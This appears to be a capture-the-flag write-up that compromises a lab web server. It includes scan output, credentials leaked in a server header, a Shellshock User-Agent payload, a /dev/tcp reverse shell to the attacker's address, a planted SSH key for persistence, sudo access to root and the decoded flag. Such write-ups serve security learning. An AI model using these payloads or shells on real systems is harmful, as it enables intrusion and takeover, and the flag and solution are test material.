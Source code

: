 # Web Hacking 05
```bash
IP=192.168.10.8
PORT=8110
AUTH=admin:PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc
```
## Portscan
```bash
$ nmap -p- $IP

Nmap scan report for 192.168.10.8
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8110/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 46.49 seconds
```

```bash
$ curl -I http://$IP:$PORT
HTTP/1.1 401 Unauthorized
Date: Mon, 06 Jun 2022 19:43:42 GMT
Content-Type: text/html
Content-Length: 172
Connection: keep-alive
WWW-Authenticate: Basic realm="Registry realm"
Server: admin : PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc

```

Open `http://$IP:$PORT` in browser and try login as `$AUTH`, success.

`curl http://$IP:$PORT -u $AUTH`

Website shows image of "shellshock"

## SSH
try connect to `admin@$IP` with password, no success.

## Gobuster
```bash
$ gobuster dir -u http://$IP:$PORT -w /usr/share/wordlists/dirb/common.txt -U admin -P PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.8:8110
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Auth User:               admin
[+] Timeout:                 10s
===============================================================
2022/06/06 22:11:05 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 286]
/.htaccess            (Status: 403) [Size: 286]
/cgi-bin/             (Status: 403) [Size: 285]
/index.html           (Status: 200) [Size: 279]
/index                (Status: 200) [Size: 279]
/robots               (Status: 200) [Size: 202]
/robots.txt           (Status: 200) [Size: 202]
/server-status        (Status: 403) [Size: 290]
                                               
===============================================================
2022/06/06 22:12:20 Finished
===============================================================
```

Open robots.txt
```bash
$ curl http://$IP:$PORT/robots.txt -u $AUTH                    

/cgi-bin/vulnerable

This machine appears to be vulnerable to Shellshock, try to obtain a reverse shell.
```

```bash
$ curl -A "() { :;}; echo; /bin/bash -c 'id'" http://$IP:$PORT/cgi-bin/vulnerable -u $AUTH
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Reverse shell
reverse shell with `nc -lvp 1337` and `curl -A "() { :;}; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.9.2/1337 0>&1'" http://$IP:$PORT/cgi-bin/vulnerable -u $AUTH`.

the home folder has a `touchmenot.sh`, when executed, the user is changed to `joaquim`.

```bash
www-data@01557ef5aa3b:/usr/lib/cgi-bin$ cd /home
www-data@01557ef5aa3b:/home$ ./touchmenot.sh
$ id
uid=33(www-data) gid=33(www-data) euid=1000(joaquim) egid=1000(joaquim) groups=1000(joaquim),33(www-data)

$ cd /home/joaquim

$ ls -lah
total 28K
drwxr-xr-x 1 joaquim joaquim 4.0K May 21 11:21 .
drwxr-xr-x 1 root    root    4.0K May 21 11:21 ..
-rw-r--r-- 1 joaquim joaquim  220 Sep 25  2014 .bash_logout
-rw-r--r-- 1 joaquim joaquim 3.4K Sep 25  2014 .bashrc
-rw-r--r-- 1 joaquim joaquim  675 Sep 25  2014 .profile
drwx------ 2 joaquim joaquim 4.0K May 21 11:21 .ssh
-rw------- 1 joaquim joaquim  341 May 21 11:21 ssh_config.txt

$ cat ssh_config.txt
SSH server is running on a deprecated version.

In order to establish an ssh connection, we need to use ED25519 algorithm.

Create a key with the following command and then paste it on the .ssh/authorized_keys file.

ssh-keygen -t ed25519 -C "your_email@example.com"

To access the server, execute the following command:

ssh -i key user@ip
```

## Plant ssh key
on attacker machine the key is created
```bash
$ ssh-keygen -t ed25519 -C "your_email@example.com"
$ cat key.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com
```

through reverse shell
```bash
$ cd .ssh
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com" >> authorized_keys
$ cat authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINQSZDrYvsA+71Dsj52F8d5/qBsURESHx8e++XPigszh test@example.com
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com
```

## Exfiltrate the flag
now connection can be established using `ssh -i key joaquim@$IP` from attacker

the user is in sudo group and wont require a password. so now look for the key.

```bash
$ sudo ls -lah /root
total 20K
drwx------ 1 root root 4.0K May 21 11:21 .
drwxr-xr-x 1 root root 4.0K Jun  6 07:15 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  140 Nov 19  2007 .profile
-rw-rw-r-- 1 root root   28 May 21 11:14 flag.zip

$ sudo file /root/flag.zip
/root/flag.zip: ASCII text, with no line terminators

$ sudo cat /root/flag.zip 
Y3liZXJjdGZkezFfNG1fcjAwN30=

$ sudo cat /root/flag.zip | base64 -d
cyberctfd{1_4m_r007}
```

`cyberctfd{1_4m_r007}`